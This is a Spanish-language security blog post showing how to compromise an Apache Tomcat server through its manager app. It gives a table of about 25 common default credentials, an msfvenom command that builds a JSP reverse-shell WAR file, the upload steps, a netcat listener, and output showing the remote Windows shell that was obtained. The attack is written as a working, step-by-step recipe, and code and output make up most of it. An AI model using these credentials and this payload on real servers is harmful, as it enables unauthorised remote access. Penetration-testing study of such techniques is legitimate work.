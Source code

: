 ```yaml
---
date: 2022-10-29T00:20:05.000Z
layout: post
comments: true
title: Subir archivo malicioso en tomcat
subtitle: 'WAR file'
description: >-
image: >-
    http://imgfz.com/i/OXbyI2Y.png
optimized_image: >-
    http://imgfz.com/i/OXbyI2Y.png
category: ciberseguridad
tags: 
  - linux
  - hacking
  - exploit
  - vulnerabilidad
  - war
  - default
  - credentials
author: Felipe Canales Cayuqueo
paginate: true
---
```


Apache Tomcat es un servidor web de código abierto y contenedor de Servlet para código Java. En esta ocasión se subirá un archivo por medio del "manager app", en el cual muchas veces contiene alguna de las siguientes credenciales:

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

Si ya obtuvimos acceso al "manager app", debemos crear nuestro payload por medio de ```msfvenom```:

```bash
┌──(root㉿kali)-[/tomcat]
└─ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.23 LPORT=443 -f war -o reverse.war                                       
Payload size: 1085 bytes
Final size of war file: 1085 bytes
Saved as: reverse.war
```

```bash
┌──(root㉿kali)-[/tomcat]
└─ ls
reverse.war
```

Ahora dentro del "manager app" nos dirigimos a la sección "archivo WAR a desplegar" y le damos en "Choose File":

![tomcat1](/images/tomcat.png)

Y seleccionamos el archivo ```reverse.war``` para desplegar:

![tomcat2](/images/tomcatwarupload.png)

Nos ponemos a la escucha con ```netcat``` en el puerto 443:

```bash
┌──(root㉿kali)-[/tomcat]
└─ nc -nlvp 443
listening on [any] 443 ...
```

Y abrimos ```/reverse``` en la tabla de aplicaciones de Tomcat:

![tomcat2](/images/tomcatreversewar.png)


Para finalmente obtener nuestra shell interactiva:

```bash
┌──(root㉿kali)-[/tomcat]
└─ nc -nlvp 443
listening on [any] 443 ...
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49811
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>
```
  
